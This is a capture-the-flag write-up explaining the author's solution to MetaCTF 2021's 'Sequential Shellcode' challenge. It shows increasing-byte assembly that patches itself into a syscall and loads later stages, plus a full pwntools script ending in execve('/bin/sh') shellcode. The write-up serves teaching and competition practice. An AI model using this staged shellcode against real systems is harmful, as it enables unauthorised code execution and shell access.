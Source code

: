 ## Sequential Shellcode

was a shellcoding pwn challenge from MetaCtf 2021.

A very interesting one, got first blood on it, and there was only one solve..

So the concept was to write a shellcode where every byte must be bigger then the preceding one..

a increasing only shellcode..more or less...

The shellcode is copied to a memory zone RWX mapped at address 0x0000133713370000

first we use the fact that in the register rcx, you will get the length of shellcode less 1.

so we send a shellcode of length 0x10 to have 0x0f in rcx..

that will be usefull for us...

let's see registers state when we enter the shellcode:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Sequential.Shellcode/pics/registers.png)

you can see that we set rcx to 0x0f above, and that rdx & rax registers points to the beginning of our shellcode.

first we will use:

`04 05       add al,5`

like this we can change it to a syscall with the next instruction, that will modify the 04 opcode to 0F.

`  or byte ptr[rdx],cl`

now we have a syscall at the address 0x0000133713370000 where our shellcode start.

then we clear al, to make rax pointing again to shellcode start.

then we set the registers correctly to call read..

and we jump back to the beginning of the shellcode, and we will read a second shellcode non restricted above the first one..

this second shellcode will read a third one , that will do execve("/bin/sh", 0,0)

and that's all

so here is my solution:

![](https://raw.githubusercontent.com/nobodyisnobody/write-ups/main/MetaCtf.2021/pwn/Sequential.Shellcode/pics/disass.png)


```asm
begin:
  add al,5
  or byte ptr[rdx],cl
  and al,0x28
  push rax
  push rcx
  push rbx
  pop rax
  pop rdx
  pop rsi
  jno begin
  .byte 0xf5,0xf6
```

and the full exploit:

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF('./sequential')

host, port = "host.cg21.metaproblems.com", "3340"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

shellc = asm('''
begin:
  add al,5
  or byte ptr[rdx],cl
  and al,0x28
  push rax
  push rcx
  push rbx
  pop rax
  pop rdx
  pop rsi
  jno begin
  .byte 0xf5,0xf6

''')

print(hexdump(shellc))

payload = shellc
p.sendlineafter('bytes?\n', str(len(payload)))


for i in payload:
  p.sendlineafter('> ', str(ord(i)))

shellc2 = asm('''
  .byte 0xf,0x05
  xor eax,eax
  push 0x40
  pop rdx
  syscall
''')

p.send(shellc2.ljust(15,'\x90'))

shellc3 = asm('''
  .byte 0x90,0x90,0x90,0x90,0x90,0x90, 0x90,0x90,0x90
  xor esi, esi
  push rsi
  mov rbx, 0x68732f2f6e69622f
  push rbx
  push rsp
  pop rdi
  imul esi
  mov al, 0x3b
  syscall
''')

p.send(shellc3)

p.interactive()
```

*nobodyisnobody still pwning things*

